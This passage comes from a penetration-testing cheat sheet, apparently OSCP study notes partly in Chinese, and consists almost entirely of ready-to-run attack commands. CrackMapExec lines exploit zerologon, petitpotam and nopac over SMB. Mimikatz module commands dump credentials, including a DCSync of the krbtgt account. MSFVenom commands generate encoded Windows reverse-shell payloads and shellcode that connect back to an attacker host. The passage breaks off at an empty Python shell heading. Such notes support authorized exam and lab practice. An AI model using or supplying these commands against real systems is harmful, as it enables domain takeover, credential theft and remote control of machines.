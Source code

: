 ```
crackmapexec smb <ip> -u '' -p '' -M zerologo
crackmapexec smb <ip> -u '' -p '' -M petitpotam
crackmapexec smb <ip> -u 'user' -p 'pass' -M nopac
```
### 搭配模組 
-  基礎配置
```
cme <protocol> <target(s)> -M <module name>.
cme smb -M mimikatz --options
```
- 使用mimikatz模組
```
cme 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M mimikatz
cme <protocol> <target(s)> -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug
```
```
cme smb 192.168.255.131 -u Administrator -p pass -M mimikatz -o COMMAND='"lsadump::dcsync /domain:domain.local /user:krbtgt"
```
```
# List available modules
crackmapexec smb -L

# Module information
crackmapexec smb -M mimikatz --module-info

# View module options
crackmapexec smb -M mimikatz --options

# Mimikatz module
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M mimikatz
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' -M mimikatz
crackmapexec smb 192.168.215.104 -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug'
```
## MSFVenom
>[!WARNING]
>OSCP基本上是可以用的，但是不要用到meterpreter shell 
### Windows Shell
- Windows Meterpreter shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe
```
-  Windows non staged reverse shell(這個可以用netcat)
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe
```
- Windows Powershell reverse shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1
```
- Windows Shellcode 
```
msfvenom -p windows/shell_reverse_tcp -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.49.100 LPORT=80 -e x86/alpha_mixed -f c
```
### Python Shell
- Windows Python reverse shell
```
```